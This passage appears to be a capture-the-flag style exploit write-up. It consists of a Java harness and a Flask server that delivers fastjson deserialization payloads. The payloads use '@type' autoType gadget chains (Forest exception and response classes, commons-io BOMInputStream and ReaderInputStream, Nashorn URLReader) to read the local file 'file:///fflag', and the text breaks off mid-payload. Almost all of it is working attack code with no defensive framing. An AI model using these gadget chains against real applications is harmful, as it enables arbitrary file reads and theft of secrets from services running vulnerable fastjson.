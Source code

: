 ```java
import com.alibaba.fastjson.JSON;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.lang.Exception;
import java.lang.String;
public class Test {
    public static void main(String[] args) throws Exception {
        byte[] b = Files.readAllBytes(Paths.get("/path/to/poc1.txt"));
        System.out.println(new String(b));
        String x =new String(b);
        try{
            JSON.parseObject(x);
        }
        catch(Exception e){
            System.out.println(e);
        }

        byte[] b2 = Files.readAllBytes(Paths.get("/path/to/poc2.txt"));
        JSON.parseObject(new String(b2));
    }
}

```
## 完整脚本
serve.py

`flask --app serve.py:app run --debug --port=7711  --host 0.0.0.0`

```python
from flask import Flask,Response
app = Flask(__name__)


poc1 = """{
  "trigger1": {
    "@type": "java.lang.Exception",
    "@type": "com.dtflys.forest.exceptions.ForestNetworkException",
    "response":{}
  }
}
"""
@app.route("/load")
def load_controller():
    return Response(response=poc1,status=200,mimetype='application/json')

poc2 = """{
  "trigger2": {
      "@type": "com.dtflys.forest.http.ForestResponse",
      "@type": "com.dtflys.forest.backend.httpclient.response.HttpclientForestResponse",
      "entity":{
        "@type": "org.apache.http.HttpEntity",
        "@type": "org.apache.http.entity.InputStreamEntity",
        "inStream":{
            "@type": "org.apache.commons.io.input.BOMInputStream",
            "delegate": {
                "@type": "org.apache.commons.io.input.ReaderInputStream",
                "reader": { 
                    "@type": "jdk.nashorn.api.scripting.URLReader",
                    "url": "file:///fflag"
                },
                "charsetName": "UTF-8",
                "bufferSize": 1024
            },
```